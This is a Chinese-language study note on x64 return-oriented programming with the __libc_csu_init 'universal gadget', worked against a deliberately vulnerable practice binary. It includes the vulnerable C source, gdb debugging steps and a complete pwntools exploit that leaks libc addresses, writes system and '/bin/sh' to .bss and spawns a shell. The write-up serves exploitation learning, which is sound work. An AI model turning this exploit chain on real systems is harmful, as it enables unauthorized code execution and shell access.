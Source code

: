 ### 通用rop的学习

之 每次看都能发现新东西。



> 在x64下有一些万能gadgets可以利用，比如我们用objdump -d level5观察一下__libc_csu_init()这个函数，一般来说，只要程序调用了libc.so，程序都会有这个函数来对libc进行初始化操作。

我们来看一下函数

```assembly
##libc-2.23.so

00000000004005c0 <__libc_csu_init>:
  4005c0:	41 57                	push   %r15
  4005c2:	41 56                	push   %r14
  4005c4:	41 89 ff             	mov    %edi,%r15d
  4005c7:	41 55                	push   %r13
  4005c9:	41 54                	push   %r12
  4005cb:	4c 8d 25 3e 08 20 00 	lea    0x20083e(%rip),%r12        # 600e10 <__frame_dummy_init_array_entry>
  4005d2:	55                   	push   %rbp
  4005d3:	48 8d 2d 3e 08 20 00 	lea    0x20083e(%rip),%rbp        # 600e18 <__init_array_end>
  4005da:	53                   	push   %rbx
  4005db:	49 89 f6             	mov    %rsi,%r14
  4005de:	49 89 d5             	mov    %rdx,%r13
  4005e1:	4c 29 e5             	sub    %r12,%rbp
  4005e4:	48 83 ec 08          	sub    $0x8,%rsp
  4005e8:	48 c1 fd 03          	sar    $0x3,%rbp
  4005ec:	e8 0f fe ff ff       	callq  400400 <_init>
  4005f1:	48 85 ed             	test   %rbp,%rbp
  4005f4:	74 20                	je     400616 <__libc_csu_init+0x56>
  4005f6:	31 db                	xor    %ebx,%ebx
  4005f8:	0f 1f 84 00 00 00 00 	nopl   0x0(%rax,%rax,1)
  4005ff:	00
  400600:	4c 89 ea             	mov    %r13,%rdx
  400603:	4c 89 f6             	mov    %r14,%rsi
  400606:	44 89 ff             	mov    %r15d,%edi
  400609:	41 ff 14 dc          	callq  *(%r12,%rbx,8)
  40060d:	48 83 c3 01          	add    $0x1,%rbx
  400611:	48 39 eb             	cmp    %rbp,%rbx
  400614:	75 ea                	jne    400600 <__libc_csu_init+0x40>
  400616:	48 83 c4 08          	add    $0x8,%rsp
  40061a:	5b                   	pop    %rbx
  40061b:	5d                   	pop    %rbp
  40061c:	41 5c                	pop    %r12
  40061e:	41 5d                	pop    %r13
  400620:	41 5e                	pop    %r14
  400622:	41 5f                	pop    %r15
  400624:	c3                   	retq
  400625:	90                   	nop
  400626:	66 2e 0f 1f 84 00 00 	nopw   %cs:0x0(%rax,%rax,1)
  40062d:	00 00 00
```



我们看一下地址 0x040061a 到 0x000624我们可以通过将数据填写在栈上来控制寄存器 rbx、rbp、r12、r13、r14、r15的值。然后发现 地址0x400600处，r13修改rdx的值，r14修改rsi的值，r15修改rdi的值，刚好是存储函数参数的三个寄存器。



level5的源码如下：

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
void vulnerable_function() {
    char buf[128];
    read(STDIN_FILENO, buf, 512);
}
int main(int argc, char** argv) {
    write(STDOUT_FILENO, "Hello, World\n", 13);
    vulnerable_function();
}
```

利用思路位：

* 泄漏出write函数的地址，得出libc基地址。

* 通过再次调用write函数将system地址写入到write的got表中。
* 再次调用write函数，实际调用的是system函数，得到shell。



根据利用思路，构造3个payload，我们来调试一下：

```python
from pwn import *

p = process('./level5')
elf = ELF('level5')

p.recvuntil("Hello, World\n")

write_got = elf.got['write']
payload1 = 136*"\x00"  ## *两边不能有空格
payload1 += p64(0x040061a) + p64(0)+p64(1)+p64(write_got)+p64(8)+p64(write_got)+p64(1)
payload1 += p64(0x0400600)
raw_input()

print "\n#############sending payload1#############\n"
p.sendline(payload1)
raw_input()
```



第一个raw_input()是在发送payload之前attach上去，这样能具体的观察到发送前后内存的变化，最后一行raw_input()是在发送payload后挂住脚本防止level5直接退出。

如图所示，进程的PID号为4597.用gdb命令`gdb attach 4597`后即可附加到进程上。在py脚本中按一下回车，这时会执行p.send(payload1)。接下来正式开始调试，以下命令均在gdb中进行。

此时程序执行到read(STDIN_FILENO, buf, 512)，我们按`n`后，程序执行完read，将我们的payload读到了栈上。我们输入了136个`0`，然后是通用gadget的起始位置`0x40061a`。



我们看一下内存情况：

<img src="1.png" alt="1" style="zoom:50%;" />

可以看到目标寄存器都变成我们要修改的值，然后要跳到0x400600来给 rdi、rsi、rdx赋值，然后再执行call执行，执行write函数，这样就将 write函数的got值打印出来了。打印write函数的之后，我们需要再跳到main函数中，再利用overflow。那main函数的地址应该写在哪里呢？我们继续往下执行看看：



<img src="2.png" alt="2" style="zoom:50%;" />

执行完call执行之后，会对rbx进行加1的操作，同时比较rbx和rbp的值，相同时zf=1，jne不跳转，继续执行。可以看到rsp所指向地址不断升高，所以接下来需要填充56个字节（都为0），然后又可以跳转到ret所填写的位置。所以payload1的完整写法为：

```python
payload1 = 136*"\x00"  ## *两边不能有空格
payload1 += p64(0x040061a) + p64(0)+p64(1)+p64(write_got)+p64(8)+p64(write_got)+p64(1)
payload1 += p64(0x0400600)
payload1 += 56*"\x00" + p64(main_addr)
```





```python
from pwn import *
#context.log_level = 'debug'
p = process('./level5')
elf = ELF('level5')
libc = ELF('/lib/x86_64-linux-gnu/libc-2.23.so')
p.recvuntil("Hello, World\n")

write_got = elf.got['write']
main_addr = 0x0400587
read_got = elf.got['read']

payload1 = 136*'\x00'
payload1 += p64(0x040061a) + p64(0)+p64(1)+p64(write_got)+p64(8)+p64(write_got)+p64(1)
payload1 += p64(0x0400600)
payload1 += 56*'\x00'
payload1 += p64(main_addr)
#raw_input()
print "\n#############sending payload1#############\n"
p.sendline(payload1)
#raw_input()
write_addr = u64(p.recv(8))
print "write_addr = "+hex(write_addr)

bss_addr = 0x0601040
p.recvuntil("Hello, World\n")
payload2 = 136*'\x00'
##                覆盖返回地址                  执行的函数   参数三     参数二       参数一
payload2 += p64(0x040061a) + p64(0)+p64(1)+p64(read_got)+p64(16)+p64(bss_addr)+p64(0)
payload2 += p64(0x0400600) ## 将刚才放在栈上的参数放入放入相应的寄存器中。
payload2 += 56*'\x00'
payload2 += p64(main_addr) ##重新返回值main函数 main函数的首地址

print "\n#############sending payload2#############\n"
p.send(payload2)

system_addr = write_addr-(libc.sym['write']-libc.sym['system'])
print "system_addr = "+hex(system_addr)
#payload = p64(system_addr)+"/bin/sh\x00"
p.send(p64(system_addr)+"/bin/sh\x00")

raw_input()

payload3 = 136*'\x00'
payload3 += p64(0x040061a) + p64(0)+p64(1)+p64(bss_addr)+p64(0)+p64(0)+p64(bss_addr+8)
payload3 += p64(0x0400600)
payload3 += 56*'\x00'
payload3 += p64(main_addr)

p.recvuntil("Hello, World\n")

print "\n#############sending payload3#############\n"
p.send(payload3)

p.interactive()
```



###### hex()输出的是字符串，可以和字符串拼接如代码

```python
print "system_addr = "+hex(system_addr)
```

但是如果是 print "system_addr = "+ system_addr 就会 报错，提示两种类型不能进行拼接？

###### 得到got地址之后，将内容进行输出 直接u32(recv()) 得到的就是int型的 可以直接进行加减的地址值。

比如代码如下：

```python
write_addr = u64(p.recv(8))
print "write_addr = "+hex(write_addr)
```

可以看到，如果想和字符串拼接的话，hex可以将地址值转换为十六进制，然后还可以将int型 转换为字符串，进行拼接。





### 参考链接

[一步一步学ROP之Linux_x64篇](https://www.dazhuanlan.com/2019/12/25/5e0299bfd8d89/)

[ROP学习：利用通用gadget]([https://chybeta.github.io/2017/08/09/ROP%E5%AD%A6%E4%B9%A0%EF%BC%9A%E5%88%A9%E7%94%A8%E9%80%9A%E7%94%A8gadget/](https://chybeta.github.io/2017/08/09/ROP学习：利用通用gadget/))

